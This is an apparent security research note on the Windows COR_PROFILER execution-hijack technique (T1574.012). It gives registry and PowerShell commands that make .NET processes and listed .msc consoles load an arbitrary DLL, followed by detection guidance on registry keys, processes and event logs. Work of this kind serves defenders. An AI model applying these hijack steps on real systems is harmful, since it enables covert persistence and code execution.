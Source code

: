 # Hijack Execution Flow COR_PROFILER

## Keynotes
Before any DLL execution done:  
`COR_ENABLE_PROFILING` must be `1`  
`COR_PROFILER_PATH` must be a valid `DLL` file since it will be trigger by `LoadLibrary()` later

## Execution
Two ways to add COR_* related Envrionment
- Registry based
- Session based (cmd.exe/powershell.exe prompt)

### Registry based
### Powershell
HKCU
```
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "{<CLISD>}" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```
HKLM
```
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "{<CLSID>}" -Force 
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```

### Windows Command Line
HKCU
```
reg add "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```
HKLM
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```

### Session based / Registry free
### Powershell: Session based  
```
$env:COR_ENABLE_PROFILING = 1  
$env:COR_PROFILER = '{<CLSID>}'  
$env:COR_PROFILER_PATH = '<FULL_PATH_TO_DLL>'
```

### Powershell: Permanent add $env in PS (USER)
```
[System.Environment]::SetEnvironmentVariable('COR_ENABLE_PROFILING', 1, [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER_PATH', '<FULL_PATH_TO_DLL>', [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER', '{<CLSID>}', [System.EnvironmentVariableTarget]::User)
```

## Analysis
### General Flow
The binary will loads `clr.dll` and get the config of `COR_PROFILER`. After going through few functions. It will leads to `LoadLibrary()` that will load the DLL that declared in the `COR_PROFILER_PATH`

![getconfigvalue_COR.png](./Images_T1574.012/getconfigvalue_COR.PNG)

### Function chain inside `clr.dll` that will trigger the loading of DLL declared in `COR_PROFILER_PATH`
```
ProfilingAPIUtility::InitializeProfiling()   ProfilingAPIUtility::AttemptLoadProfilerForStartup() 
CLRConfig::GetConfigValue() COR_ENABLE_PROFILING/COR_PROFILER/COR_PROFILER_PATH  
ProfilingAPIUtility::LoadProfiler()  
EEToProfInterfaceImpl::Init()  
EEToProfInterfaceImpl::CreateProfiler  
CoCreateProfiler  
FakeCoCreateInstanceEx()  
FakeCoCallDllGetClassObject()  
LoadLibrary()
```

### For mmc.exe case
The struct of `CSnapInReference` that passed into `mmcndmgr.dll -> CreateSnapIn()` will decide whether `clr.dll` will be load and getting config of `COR_PROFILER`

Load clr.dll if `CFxSnapInReference` was loadded  
![snapin_clr_dll.png](./Images_T1574.012/snapin_clr_dll.png)

Does not load clr.dll if **NOT** `CFxSnapInReference` loaded  
![snapin_no_clr_dll.png](./Images_T1574.012/snapin_no_clr_dll.png)

### Register based
When the .msc loads one of the FX:{CLSID}, it will load of `clr.dll` and leads to `LoadLibrary()` of the DLL in `COR_PROFILER_PATH`.  

According to [Microsoft Doc](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)), FX is a prefix that is used to distinguish MMC 3.0 snap-ins from the older snap-ins.  

Those FX:{CLSID} can be found in registry key `HKLM\SOFTWARE\Microsoft\MMC\SnapIns`

### Session based / Registry Free
- The prompt needs to execute those dotnet binary in same session
- Any dotnet binary will trigger the check for COR_* related environment variables

## Hunt
### List of .msc available  
http://www.auditiait.es/en/list-of-commands-msc/  
https://ss64.com/nt/syntax-mmc.html
### Enumerate more .msc in your machine 
`dir c:\windows\*.msc /s /b /p`

### List of .msc (Not limited to) 
These .msc will trigger the loading of preload of COR_PROFILER
- comexp.msc
- compmgmt.msc
- eventvwr.msc
- gpedit.msc
- secpol.msc
- taskschd.msc
- tpm.msc
- wf.msc
- devmoderunasuserconfig.msc (Need UAC)

## Detection
### Process
mmc.exe that loads clr.dll
![mmc_dotnet_process_hacker.png](./Images_T1574.012/mmc_dotnet_process_hacker.PNG)

### Process chain
mmc.exe -> INTERSTING.msc

### Registry Key
Any COR_* related registry name found in:  
```
HKCU:\Environment  
HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
```
Remember `COR_ENABLE_PROFILING` must be `1` and 
investigate binary inside `COR_PROFILER_PATH`

### Windows Event
Sourcetype: Application  
Event ID: 1022 shows error (For mmc.exe)  
Note: It might contain lots of FPs
![winevtlog_application_error_1022.png](./Images_T1574.012/winevtlog_application.png)

Sourcetype: Powershell
Note: Powershell script block if possible

## References

<https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)>  
<http://www.auditiait.es/en/list-of-commands-msc/>  
<https://ss64.com/nt/syntax-mmc.html>  
